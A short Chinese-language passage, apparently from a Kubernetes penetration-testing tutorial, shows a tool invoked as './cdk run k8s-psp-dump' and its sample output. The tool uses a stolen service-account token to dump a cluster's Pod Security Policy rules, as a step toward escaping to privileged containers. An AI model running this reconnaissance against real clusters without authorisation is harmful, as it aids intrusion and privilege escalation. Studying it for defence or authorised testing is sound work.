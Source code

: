### 安全策略

对于已经获取了kubeconfig或sa账号权限，进而想要创建特殊配置的容器，但是受到了K8s Pod Security Policies的限制时可以使用这个Exploit获取Pod Security Policies的规则信息

```plain
#命令格式
./cdk run k8s-psp-dump (auto|<service-account-token-path>

#使用实例
./cdk run k8s-psp-dump auto
2021/03/24 22:15:58 getting K8s api-server API addr.
    Find K8s api-server in ENV: https://ip:8443
2021/03/24 22:15:58 trying to dump K8s Pod Security Policies with local service-account: token
2021/03/24 22:15:58 requesting  /apis/policy/v1beta1/podsecuritypolicies
2021/03/24 22:15:58 dump Pod Security Policies success, saved in:  k8s_pod_security_policies.json
2021/03/24 22:15:58 requesting  /api/v1/namespaces/default/pods
2021/03/24 22:15:58 K8S Pod Security Policies rule list:
2021/03/24 22:15:58 rule { securityContext.hostPID: true } is not allowed.
2021/03/24 22:15:58 rule { securityContext.hostIPC: true } is not allowed.
2021/03/24 22:15:58 rule { volumes[0].hostPath.pathPrefix: \"/proc\" } is not allowed.
2021/03/24 22:15:58 rule { volumes[1].hostPath.pathPrefix: \"/dev\" } is not allowed.
2021/03/24 22:15:58 rule { volumes[2].hostPath.pathPrefix: \"/sys\" } is not allowed.
2021/03/24 22:15:58 rule { volumes[3].hostPath.pathPrefix: \"/\" } is not allowed.
2021/03/24 22:15:58 rule { containers[0].securityContext.capabilities.add: \"SYS_ADMIN\" } is not allowed.
2021/03/24 22:15:58 rule { containers[0].securityContext.capabilities.add: \"SYS_PTRACE\" } is not allowed.
```

### 端口服务

[![](assets/1699842580-84e91d2f370c67894acd998c45e870c2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025164516-d217ee98-7312-1.png)
